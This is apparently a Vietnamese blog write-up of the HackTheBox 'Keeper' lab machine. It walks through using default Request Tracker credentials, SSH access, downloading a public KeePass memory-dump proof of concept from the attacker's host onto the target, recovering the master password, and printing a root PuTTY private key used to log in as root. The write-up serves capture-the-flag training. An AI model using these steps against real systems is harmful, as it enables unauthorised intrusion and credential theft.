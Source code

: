 ```yaml
---
layout: post
author: Neo
title: HackTheBox - Keeper
image: /assets/img/2023-08-27-HTB-Keeper/intro.png
date: 2023-08-27
tags:
  - web
  - linux
  - ssh
  - keepass
  - hackthebox
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

## Reconnaissance and Scanning

Port scan, tôi dùng [RustScan](https://github.com/RustScan/RustScan)

```python
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKHZRUyrg9VQfKeHHT6CZwCwu9YkJosNSLvDmPM9EC0iMgHj7URNWV3LjJ00gWvduIq7MfXOxzbfPAqvm2ahzTc=
|   256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBe5w35/5klFq1zo5vISwwbYSVy1Zzy+K9ZCt0px+goO
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Truy cập thử vào web với port 80

![web](/assets/img/2023-08-27-HTB-Keeper/1.webp)

Tôi sẽ thêm hosts để truy cập domain này

![ticket](/assets/img/2023-08-27-HTB-Keeper/2.webp)

Tôi có một vài thông tin về page này: `best practical`, `RT 4.4.4+dfsg-2ubuntu1 (Debian)`. Tìm kiếm thông tin trên gu gồ và tôi có tài khoản mặc định ở [đây](https://docs.bestpractical.com/rt/4.4.4/README.html)
Thử đăng nhập với tài khoản mặc định `root`:`password`

![rt](/assets/img/2023-08-27-HTB-Keeper/3.webp)

Dạo quanh page này, tôi tìm thấy user khác ở *Admin -> Users -> Select*

![lnorgaard](/assets/img/2023-08-27-HTB-Keeper/4.webp)

Thử đăng nhập ssh bằng user mới

## SSH

```python
┌──(root㉿kali)-[/home/kali]
└─# ssh lnorgaard@10.10.11.227 
The authenticity of host '10.10.11.227 (10.10.11.227)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Sun Oct 15 13:42:38 2023 from 10.10.14.61
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
```

Tôi có `user.txt` ở đây

## Privilege escalation

Bên cạnh `user.txt`, tôi còn 1 file zip nữa `RT30000.zip`. Unzip nó và tôi được 2 file mới

```python
lnorgaard@keeper:~$ unzip /home/lnorgaard/RT30000.zip 
Archive:  /home/lnorgaard/RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx
```

Unzip được 2 file. Với file passcodes, khi tìm hiểu cách mở file này, tôi tìm được cách crack password từ file kdbx với `john`

```python
┌──(root㉿kali)-[~kali/keepass-dump-masterkey]
└─# keepass2john passcodes.kdbx > passcodes.txt  
┌──(root㉿kali)-[/home/kali/keepass-dump-masterkey]
└─# john -w=/usr/share/wordlists/rockyou.txt.gz passcodes.txt 
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: UTF-16 BOM seen in wordlist. File may not be read properly unless you re-encode it
0g 0:00:12:40 DONE (2023-10-15 13:48) 0g/s 180.5p/s 180.5c/s 180.5C/s ����ʒ:�!=*$�\3T�x#a�U�L:�-*��(>8�^Y..R��4�^o��R��)����-�lQ�{�v{AC������
Session completed. 
```

Không có kết quả.

Tìm kiếm về KeePass và dump, tôi tìm được [CMEPW/keepass-dump-masterkey](https://github.com/CMEPW/keepass-dump-masterkey). Clone nó về và tải nó lên máy

```python
┌──(root㉿kali)-[~kali]
└─# git clone https://github.com/CMEPW/keepass-dump-masterkey.git
Cloning into 'keepass-dump-masterkey'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 9 (delta 0), reused 6 (delta 0), pack-reused 0
Receiving objects: 100% (9/9), 32.52 KiB | 756.00 KiB/s, done.               
┌──(root㉿kali)-[~kali]
└─# cd keepass-dump-masterkey 
┌──(root㉿kali)-[~kali/keepass-dump-masterkey]
└─# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...

```

```python
lnorgaard@keeper:~/RT30000$ wget http://10.10.14.130:4444/poc.py
--2023-10-15 19:20:25--  http://10.10.14.130:4444/poc.py
Connecting to 10.10.14.130:4444... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2735 (2.7K) [text/x-python]
Saving to: ‘poc.py’

poc.py                                                          100%[====================================================================================================================================================>]   2.67K  --.-KB/s    in 0.004s  

2023-10-15 19:20:25 (620 KB/s) - ‘poc.py’ saved [2735/2735]

```

```python
lnorgaard@keeper:~/RT30000$ python3 poc.py -d KeePassDumpFull.dmp
2023-10-15 19:42:03,381 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

Tôi không hiểu lắm về các password này, tìm kiếm về các tool keepass trên kali tôi tìm được `keepass2`

```python
┌──(root㉿kali)-[~kali/keepass-dump-masterkey]
└─# keepass2
```

![keepass](/assets/img/2023-08-27-HTB-Keeper/5.webp)

![password](/assets/img/2023-08-27-HTB-Keeper/6.webp)

Sau khi add file kdbx, tôi cần phải nhập password. Vậy thì tôi sẽ thử nhập từng password ở phần dump đã tìm được phía trên. Tuy nhiên thì không có cái nào được. Tôi thử sao chép cái password đó lên Gu gồ và được Gu gồ gợi ý sang 1 kết quả khác

![ideas](/assets/img/2023-08-27-HTB-Keeper/7.webp)

![ideas](/assets/img/2023-08-27-HTB-Keeper/8.webp)

Đoạn đầu tiên rất giống với password của tôi nên tôi sẽ thử nó

![pass](/assets/img/2023-08-27-HTB-Keeper/9.webp)

Vẫn không được. Nhưng tôi thử viết thường tất cả thì được

![key](/assets/img/2023-08-27-HTB-Keeper/10.webp)

Tôi có 1 PuTTY key ở đây. Lưu nó về dưới tên root.ppk và sử dụng `puttygen` để generate được private key của root.

```python
┌──(root㉿kali)-[/home/kali]
└─# cat root.ppk 
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

```python
┌──(root㉿kali)-[/home/kali]
└─# puttygen root.ppk -O private-openssh -o root.pem
```

Login vào ssh

```python
┌──(root㉿kali)-[/home/kali]
└─# ssh -i root.pem root@10.10.11.227
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Sun Oct 15 14:41:25 2023 from 10.10.14.61
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls /root
root.txt  RT30000.zip  SQL
root@keeper:~# 
```

